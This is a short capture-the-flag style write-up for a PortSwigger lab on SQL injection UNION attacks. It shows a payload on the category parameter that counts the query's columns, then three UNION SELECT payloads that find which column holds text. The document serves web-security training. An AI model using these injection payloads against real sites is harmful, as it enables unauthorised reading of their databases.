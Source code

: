 # SQL injection UNION attack, finding a column containing text

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

![Lab Description](img/lab-description.png)

## Objective

The lab objective is to find a column containing text.

## Solution

We can use the below payload on the category parameter to determine the number of columns returned by the query.

```bash
/filter?category=Gifts'+union+select+null,null,null+--
```

After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns three columns, you would submit:

```bash
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

After determining which column holds string data, perform a SQL injection `UNION` attack that returns an additional row containing the value provided in the lab.

![Lab Solved](img/lab-solved.png)
